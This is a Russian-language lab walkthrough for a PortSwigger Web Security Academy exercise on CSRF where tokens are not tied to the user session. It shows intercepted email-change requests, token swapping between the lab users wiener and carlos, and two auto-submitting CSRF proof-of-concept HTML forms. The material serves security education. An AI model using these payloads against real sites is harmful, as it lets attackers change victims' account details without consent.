 Перейдем на уязвимый ресурс и залогинимся под `wiener:peter`

включим режим `proxy` -> `intercept is on `
и изменим почтовый ящик на `2@2.com`

мы получим запрос 
```
POST /my-account/change-email HTTP/2
...
email=2%402.com&csrf=REvmaPogUDXqGvN0V18evH746qLVkxxo
```
который мы отравим в `Repeater`, а сам запрос дропнем
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/4.%20CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/pics%20for%20walkthrough/1.png)
Далее откроем в `режиме инкогнито` другую вкладку чтобы не разлогинится с прошлым пользователем, включим режим `intercept`, залогинимся под `carlos:montoya`
и изменим почту на `123@123`

и отправим этот запрос в `Repeater`
```
POST /my-account/change-email HTTP/2
...
email=123%40123&csrf=9tQhOzDXs1myXntysHnGboUxaaMeCDnk
```
и дропнем данный запрос
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/4.%20CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/pics%20for%20walkthrough/2.png)

На следующем шаге перейдем в Repeater и возьмем csrf-токен wiener'a и поставим его в запрос #2 - carlos'a
Дело в том, что некоторые приложения не проверяют принадлежность токена к тому же сеансу, что и пользователь, делающий запрос. Вместо этого приложение поддерживает глобальный пул выпущенных им токенов и принимает любой токен, который появляется в этом пуле.

В этой ситуации злоумышленник может войти в приложение под своей учетной записью, получить действительный токен и затем передать его пользователю-жертве в ходе атаки CSRF.


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/4.%20CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/pics%20for%20walkthrough/3.png)

как видим, хоть csrf токен был и другой, все равно произошло изменение почты на `123@123` у УЗ `carlos`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/4.%20CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/pics%20for%20walkthrough/4.png)


Далее сгенерируем PoC как в прошлых лабораторных работах выбрав запрос на изменение почты и нажав `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC`
и получим следующий результат
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a01005104009a8e81b8a80800140031.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="123&#64;123" />
      <input type="hidden" name="csrf" value="9tQhOzDXs1myXntysHnGboUxaaMeCDnk" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/4.%20CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/pics%20for%20walkthrough/6.png)
Так как csrf-токен одноразовый вернемся на прошлую страничку и под УЗ `wiener`, включим `intercept`
```
POST /my-account/change-email HTTP/2
...
email=qq%40qq&csrf=mNKffyBwBfhWbFwgh04wPdincP2if1Xe
```
и дропнем данный пакет

Получив новый csrf Токен изменим ранее сгенерированный нами PoC, заменив там csrf токен с `9tQhOzDXs1myXntysHnGboUxaaMeCDnk` на `mNKffyBwBfhWbFwgh04wPdincP2if1Xe`, а так же изменим почтовый ящик с `123@123` на `1234@123`
и перепишем это в новый PoC

```

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a01005104009a8e81b8a80800140031.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="1234&#64;123" />
      <input type="hidden" name="csrf" value="mNKffyBwBfhWbFwgh04wPdincP2if1Xe" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Нажмем `Store` а далее `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/4.%20CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/pics%20for%20walkthrough/7.png)
